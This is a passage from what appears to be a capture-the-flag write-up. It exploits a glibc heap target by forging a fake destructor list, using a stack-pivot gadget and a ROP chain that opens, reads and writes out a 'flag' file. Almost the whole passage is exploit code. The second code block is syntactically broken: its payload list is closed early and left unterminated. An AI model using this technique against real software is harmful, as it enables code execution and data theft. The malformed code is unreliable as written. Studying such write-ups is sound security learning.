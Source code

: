 Luckily we got one. Let's grap this gadget and replace function `0xcafebabe` above with our gadget:

```python
### Create fake dtor_list

def left_rotate(data, bit):
    return (data << bit) | (data >> (64 - bit))

mov_rsp_rdx = libc.address + 0x000000000005a170
payload = flat(
    # dtor_list 1
    left_rotate(mov_rsp_rdx, 0x11), 0,
    0, heap + 0x800,
    )
alloc(0x4f8, payload)
```

`heap + 0x800` is right after payload above so let's put our ROPchain in that heap:

```python
### Create fake dtor_list

def left_rotate(data, bit):
    return (data << bit) | (data >> (64 - bit))

mov_rsp_rdx = libc.address + 0x000000000005a170
pop_rdi = libc.address + 0x000000000002a3e5
pop_rsi = libc.address + 0x000000000002be51
pop_rdx_rbx = libc.address + 0x0000000000090529
pop_rax = libc.address + 0x0000000000045eb0
syscall = libc.address + 0x91396

payload = flat(
    # dtor_list 1
    left_rotate(mov_rsp_rdx, 0x11), 0,
    0, heap + 0x800,
    )

    # open("flag", 0, 0)
    pop_rax, 2,
    pop_rdi, heap,    # Pointer of "flag"
    pop_rsi, 0,
    pop_rdx_rbx, 0, 0,
    syscall,

    # read(3, heap+0x7c0, 0x100)
    pop_rax, 0,
    pop_rdi, 3,
    pop_rsi, heap+0x7c0,
    pop_rdx_rbx, 0x100, 0,
    syscall,

    # write(1, heap+0x7c0, 0x100)
    pop_rax, 1,
    pop_rdi, 1,
    syscall,

alloc(0x4f8, payload)
```
